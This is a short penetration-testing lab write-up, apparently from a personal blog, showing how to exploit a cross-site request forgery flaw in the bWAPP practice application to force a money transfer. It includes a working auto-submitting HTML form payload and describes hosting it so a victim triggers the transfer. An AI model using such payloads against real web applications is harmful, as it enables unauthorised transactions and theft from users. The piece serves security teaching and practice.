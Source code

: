 ```yaml
---
title: Cross-Side Request Forgery
date: 2022-01-01 05:49:33 +0800
categories: [WebApp And Api Pentesting, Cross-Side Request Forgery]
tags: []  
---
```


# Cross-Side Request Forgery (csrf)

# Exploitation

![csrf](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/csrf1.png)

This webapp is vulnerable to csrf which allows attacker to trick user into transfering money to his account.

we will first transfer `10 EUR` to `123-45678-90` to see how the webapp is working.

![csrf](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/csrf2.png)

Done. You can see we have been charged 10 EUR and our balance was `980 EUR`.

Let's repeat again with `100 EUR` and intercept the request in burp. We will use the intercepted request to create an csrf payload.

![csrf](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/csrf3.png)

By examing the request, our payload will be something like

```html

<html>

	<head>
	</head>
	<body> 
		<form action="http://192.168.43.14/bWAPP/csrf_2.php" method="GET">
			<input type="hidden" name="account" value="173-46078-907"/>
			<input type="hidden" name="amount" value="100"/>
			<input type="hidden" name="action" value="transfer"/>
		</form>
		<script>
			document.forms[0].submit();
		</script>
	</body>

</html>

```
We will host the payload in our server and make the user visit our site.


![csrf](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/csrf4.png)

![csrf](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/csrf3.png)

As you can see, we have been charged 100 making our balance to `880 EUR`.
